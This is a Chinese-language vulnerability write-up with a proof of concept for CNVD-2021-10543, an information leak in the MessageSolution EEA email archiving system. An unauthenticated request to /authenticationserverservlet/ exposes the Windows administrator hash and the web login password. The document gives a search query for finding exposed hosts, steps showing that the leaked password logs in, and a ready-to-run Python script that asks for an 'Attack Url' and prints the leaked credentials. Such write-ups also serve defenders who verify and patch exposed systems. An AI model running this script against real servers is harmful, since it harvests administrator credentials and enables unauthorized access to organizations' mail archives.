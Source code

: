 # MessageSolution 邮件归档系统EEA 信息泄露漏洞 CNVD-2021-10543

## 漏洞描述

MessageSolution企业邮件归档管理系统 EEA是北京易讯思达科技开发有限公司开发的一款邮件归档系统。该系统存在通用WEB信息泄漏，泄露Windows服务器administrator hash与web账号密码

## 漏洞影响

```
MessageSolution 企业邮件归档管理系统EEA
```

## 网络测绘

```
title="MessageSolution Enterprise Email Archiving (EEA)"
```

## 漏洞复现

登录页面如下



![](images/202202102006003.png)

访问如下Url



```plain
http://xxx.xxx.xxx.xxx/authenticationserverservlet/
```



![](images/202202102006561.png)



使用获得到的密码可以登录系统



![](images/202202102006711.png)



## 漏洞POC



```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: MessageSolution 企业邮件归档管理系统EEA                         \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')


def POC_1(target_url):
    vuln_url = target_url + "/authenticationserverservlet/"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        if response.status_code == 200 and "administrator" in response.text:
            print("\033[32m[o] 目标 {} 存在信息泄露 响应为:{}\033[0m".format(target_url, response.text))
        else:
            print("\033[31m[x] 目标 {}不存在漏洞 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url))




if __name__ == "__main__":
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```



![](C:\Users\47236\Desktop\4.png)

## 
